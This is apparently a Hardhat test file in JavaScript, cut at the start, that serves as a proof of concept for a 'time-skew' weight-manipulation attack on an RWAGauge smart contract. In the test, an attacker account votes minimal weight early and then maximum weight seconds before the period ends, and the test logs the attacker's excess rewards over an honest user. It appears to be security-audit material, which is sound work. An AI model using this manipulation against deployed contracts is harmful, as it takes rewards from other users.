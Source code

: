 ```javascript
        const RWAGauge = await ethers.getContractFactory("RWAGauge");
        rwaGauge = await RWAGauge.deploy(
            veToken.address,
            owner.address // controller
        );
        
        // Setup initial state
        await veToken.transfer(attacker.address, ethers.utils.parseEther("1000000"));
        await veToken.transfer(user.address, ethers.utils.parseEther("1000000"));
    });

    it("Should demonstrate time-skew weight manipulation", async () => {
        console.log("\n--- Starting Time-skew Attack ---");
        
        // Record initial states
        const periodStart = await rwaGauge.getCurrentPeriodStart();
        console.log(`Period start: ${periodStart}`);
        
        // 1. Attacker sets minimal weight at start
        await rwaGauge.connect(attacker).voteYieldDirection(1); // Minimum weight
        console.log("Attacker voted minimal weight");
        
        // 2. Regular user votes normally mid-period
        await time.increaseTo(periodStart.add(MONTH / 2));
        await rwaGauge.connect(user).voteYieldDirection(5000); // 50%
        console.log("User voted normal weight mid-period");
        
        // 3. Attacker updates right before period end
        await time.increaseTo(periodStart.add(MONTH).sub(10)); // 10 seconds before end
        await rwaGauge.connect(attacker).voteYieldDirection(10000); // Maximum
        console.log("Attacker voted maximum weight near period end");
        
        // 4. Calculate weighted averages
        const finalWeight = await rwaGauge.getTimeWeightedWeight();
        console.log(`Final weighted average: ${finalWeight}`);
        
        // Verify attack impact
        const userWeight = await rwaGauge.getUserWeight(user.address);
        const attackerWeight = await rwaGauge.getUserWeight(attacker.address);
        
        expect(attackerWeight).to.be.gt(userWeight);
        console.log(`\nAttacker weight: ${attackerWeight}`);
        console.log(`User weight: ${userWeight}`);
        console.log(`Weight difference: ${attackerWeight.sub(userWeight)}`);
        
        // Calculate reward advantage
        const attackerRewards = await rwaGauge.earned(attacker.address);
        const userRewards = await rwaGauge.earned(user.address);
        
        console.log(`\nAttacker rewards: ${ethers.utils.formatEther(attackerRewards)}`);
        console.log(`User rewards: ${ethers.utils.formatEther(userRewards)}`);
        console.log(`Excess rewards: ${ethers.utils.formatEther(attackerRewards.sub(userRewards))}`);
    });
});
```
